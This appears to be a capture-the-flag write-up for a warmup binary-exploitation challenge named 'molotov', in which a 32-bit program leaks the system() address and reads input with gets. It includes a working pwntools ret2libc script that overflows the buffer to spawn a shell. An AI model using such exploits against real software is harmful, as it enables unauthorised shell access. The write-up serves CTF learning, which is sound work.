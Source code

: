 
![task](images/1.jpg)
### Information
It was a warmup challenge, 
We were given a 32bit ELF file.
![task](images/2.jpg)
Running the binary, we can see that it's leaking an address, then asking for an input.
![task](images/3.jpg)

While decompiling using IDA, we can see that the program is leaking system address, then reading an input using gets, and as we know , gets is a dangerous function that leads to buffer overflow.

### Exploitation
- Determine libc version (using [libc blucat](https://libc.blukat.me/) as an example)
- Calculate libc base address
- find /bin/bash address
- system("/bin/bash")
```python
from pwn import *
libc = ELF('libc6_2.30-0ubuntu2_amd64.so')
p = process("./molotov")
system = int("0x"+p.recvline().rstrip("\n"),16)
base = system - libc.symbols['system']
binsh = base + libc.search("/bin/sh").next()
log.warn("base = "+hex(base))
payload = ""
payload += "A"*32
payload += p32(system)
payload += "JUNK"
payload += p32(binsh)
p.sendline(payload)
p.interactive()
```
